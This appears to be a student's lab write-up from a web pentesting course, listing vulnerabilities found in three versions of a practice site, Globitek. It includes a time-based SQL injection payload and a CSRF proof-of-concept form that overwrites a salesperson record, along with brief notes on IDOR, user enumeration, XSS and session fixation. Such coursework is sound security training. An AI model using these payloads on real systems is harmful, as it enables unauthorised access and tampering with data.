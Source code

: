 # Project 8 - Pentesting Live Targets

Time spent: **9** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection
blue/public/salesperson.php?id=' OR SLEEP(5)=0--'

Vulnerability #2: Session Hijacking/Fixation
Blue doesn't refresh and validate session ID frequently.


## Green

Vulnerability #1: User Enumeration
The error message shown when a username exists and log in was unsuccessful is bolded while it's not when the username does not exist.

Vulnerability #2: Cross-Site Scripting
Code can be entered for XXS in the Contact form.


## Red

Vulnerability #1: Insecure Direct Object Reference
red/public/salesperson.php?id=10 and red/public/salesperson.php?id=11 are available through URL manipulation.

Vulnerability #2: Cross-Site Request Forgery
red/public/staff/salespeople/edit.php is vulnerable to CSRF
<form action="https://35.184.91.184/red/public/staff/salespeople/edit.php?id=5" method="post">
  <input type="text" name="first_name" value="HACKED">
  <input type="text" name="last_name" value="HACKED">
  <input type="text" name="phone" value="000-000-0000">
  <input type="text" name="email" value="hacked@hacked.com">
  <input type="submit" value="Submit">
</form>



## Notes

Describe any challenges encountered while doing the work

